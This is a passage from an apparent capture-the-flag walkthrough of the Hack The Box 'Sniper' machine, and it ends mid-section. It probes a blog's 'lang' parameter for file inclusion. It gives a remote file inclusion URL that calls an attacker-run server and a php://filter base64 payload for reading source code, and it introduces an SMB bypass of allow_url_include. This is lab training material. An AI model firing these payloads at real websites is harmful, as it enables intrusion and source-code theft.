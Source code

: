 letting gobuster finish its work, we start scanning the **blog.**
### Scanning the blog
![/images/Sniper/blog.png](/images/Sniper/blog.png)

So it's really a blog with dummy content as blog posts.

no functions here except for changing the language of the posts. and it is functional so we should test this function.

so the request to change the language will be.

English: http://10.10.10.151/blog/?lang=**blog-en.php** 

Spanish: http://10.10.10.151/blog/?lang=**blog-es.php**

so it loads different php page for every language!, So maybe we can test for **RFI/LFI, Path Traversal.**

### Gaining Access

**The File Inclusion vulnerability:**  allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

- **Basic RFI**

    In basic RFI we simply test if we can request external/remote page by changing the parameter **lang** value to an external website.

    steps:

    - Start a local python server on our machine.
    - Send a request to our server.
    - check our server log to see if we get any requests from the server.

    the request will be something like **http://10.10.10.151/blog/?lang=http://ip:port/anyfile**

    Unfortunately, we didn't get any request from the server and the sniper server returned 404.

    even after adding a null byte at the end of the link it also fails.

    ![/images/Sniper/rfi-404.png](/images/Sniper/rfi-404.png)

- **LFI using wrappers**

    Using this method we try to get the source code of a page using something called **wrappers.** I will try using PHP wrapper you can search for other wrappers.

    the request will **http://sniper.htb/blog/?lang=pHp://FilTer/convert.base64-encode/resource=blog-en.php** ,the request will try to encode the source code of blog-en.php to base64 and send it back.

    but also this method fails.

    ![/images/Sniper/PHP-wrapper.png](/images/Sniper/PHP-wrapper.png)

- **Special Case**: **Bypass allow_url_include**

    When **allow_url_include** and **allow_url_fopen** are set to **Off**. It is still possible to include a remote file on **Windows** **servers** using the **smb** protocol. SOURCE
